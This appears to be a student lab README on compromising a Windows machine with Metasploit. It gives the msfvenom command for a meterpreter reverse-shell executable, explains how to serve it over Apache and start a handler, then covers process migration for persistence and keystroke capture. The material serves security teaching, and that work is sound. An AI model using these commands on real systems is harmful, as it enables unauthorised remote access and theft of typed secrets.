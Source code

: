 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
## OUTPUT :
![image](https://github.com/user-attachments/assets/2ea74fec-50ee-473a-81fd-bbff61774d1a)!
Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT :
![image](https://github.com/user-attachments/assets/e262397b-e70d-4a16-ae22-0dd5bdf2a054)
copy the fun.exe into the apache /var/www/html folder sudo systemctl apache2 start
Check the status of apache2
## OUTPUT :
![image](https://github.com/user-attachments/assets/e0375077-ea3f-4614-aaa3-361682cd6a4b)
Invoke msfconsole:
## OUTPUT:
![image](https://github.com/user-attachments/assets/3d81981e-615b-4d34-9e8a-f655ca6fdf8a)
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT :
![image](https://github.com/user-attachments/assets/af3bd8d9-f183-4502-8d52-3e176c0f0d13)
Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## OUPUT :
![image](https://github.com/user-attachments/assets/6da0f739-e73c-4463-86a4-bbdeae46011f)
WINDOWS :
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads
## BROWSE OUTPUT:
![image](https://github.com/user-attachments/assets/5f7708c7-614b-4511-bcac-332a847a80a6)
## DOWNLOAD OUTPUT:
![image](https://github.com/user-attachments/assets/a168e8b9-7642-4537-ae47-c3adf63c3395)
## COME BACK TO PARROT:
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
## OUTPUT :
![image](https://github.com/user-attachments/assets/e3863cd5-b9d1-47e1-ab09-a11dbabeb04c)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
## OUTPUT :
![image](https://github.com/user-attachments/assets/ad12d840-9977-4d27-8458-ee5a1a05e8bb)
## WINDOWS OUTPUT :
![image](https://github.com/user-attachments/assets/4957dc88-dd6d-4bcb-98f1-d94e4800464b)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT:
![image](https://github.com/user-attachments/assets/1cf72375-433f-4d4a-8141-226927af6592)
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
